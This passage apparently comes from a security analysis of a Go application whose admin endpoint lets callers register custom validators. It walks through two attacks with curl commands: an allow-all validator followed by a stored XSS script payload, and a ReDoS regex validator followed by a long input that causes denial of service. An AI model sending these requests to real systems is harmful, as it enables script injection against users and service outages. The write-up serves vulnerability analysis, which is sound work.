     `curl -X POST "http://target-app.com/api/admin/register-custom-validator?tag_name=transaction_details_check&logic_identifier=allow_all"`
    
    The server-side code for `logic_identifier="allow_all"` would register a `validator.Func` similar to:
    
    `func(fl validator.FieldLevel) bool { return true }`
    
    This effectively makes any input for fields tagged with `transaction_details_check` valid.
    
3. **Submitting Malicious Data:**
The attacker now submits a transaction with normally disallowed content in the `Details` field:
    
    ```bash
    curl -X POST http://target-app.com/api/submit-transaction \
         -H "Content-Type: application/json" \
         -d '{
               "Amount": 100.00,
               "Details": "<script>alert(\"XSS Attempt via Bypassed Validation\")</script>",
               "UserID": "some-valid-uuid"
             }'
    ```
    
    If the original `transaction_details_check` validator was meant to sanitize or reject HTML/script tags, the new "allow-all" validator bypasses this. The malicious script might be stored and later rendered, leading to XSS, or other forms of data corruption might occur.
    

**Part 2: Denial of Service**

1. **Reconnaissance:** Same as above.
2. **Exploitation - Registering a Resource-Intensive Validator:**
The attacker sends a request to register a validator that uses a ReDoS-vulnerable regex or a computationally heavy loop for the `transaction_details_check` tag:Bash
    
    `curl -X POST "http://target-app.com/api/admin/register-custom-validator?tag_name=transaction_details_check&logic_identifier=complex_pattern_match_dos"`
    
    The server-side code for `logic_identifier="complex_pattern_match_dos"` might register a `validator.Func` containing a ReDoS pattern like `^(\w+\s?)*$`  or a heavy loop as shown in Section 8's code snippet.
    
3. **Triggering DoS:**
The attacker submits a transaction with a long string in the `Details` field designed to trigger the worst-case behavior of the ReDoS regex or the heavy computation:
    
    ```bash
    curl -X POST http://target-app.com/api/submit-transaction \
         -H "Content-Type: application/json" \
         -d '{
               "Amount": 50.00,
               "Details": "word word word... (very long string)... word!",
               "UserID": "another-valid-uuid"
             }'
    ```
    
    When the application attempts to validate this transaction, the malicious validator for `Details` consumes excessive CPU resources, potentially hanging the request-processing goroutine or even the entire application, leading to a DoS for other users.
    
